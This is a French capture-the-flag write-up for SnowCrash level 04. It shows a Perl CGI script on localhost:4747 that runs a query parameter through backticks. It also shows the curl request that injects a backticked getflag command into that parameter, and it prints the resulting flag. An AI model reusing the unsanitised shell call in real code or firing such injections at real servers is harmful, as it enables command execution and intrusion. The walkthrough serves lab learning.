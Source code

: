 # Level 04
Le répertoire de ce niveau contient le script perl suivant:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le commentaire en haut du script nous donne un indice qui nous permet de comprendre que le script en question tourne sur un serveur web local sur le port 4747.

Le script renvoie la valeur retournée par `echo %x` ou `%x` correspond au query param `x`

Par exemple, si on passe `test` dans le param `x`, le serveur retourne `test`

```sh
level04@SnowCrash:~$ curl localhost:4747?x=test
test
```
On va donc utiliser [l'operateur backtick](https://perldoc.perl.org/perlop#Quote-Like-Operators) en perl qui va nous permettre de substituer une commande par le résultat de son exécution:
```sh
curl localhost:4747?x=`getflag`
```

Le serveur va donc nous renvoyer le retour de getflag: `ne2searoevaevoem4ov4ar8ap`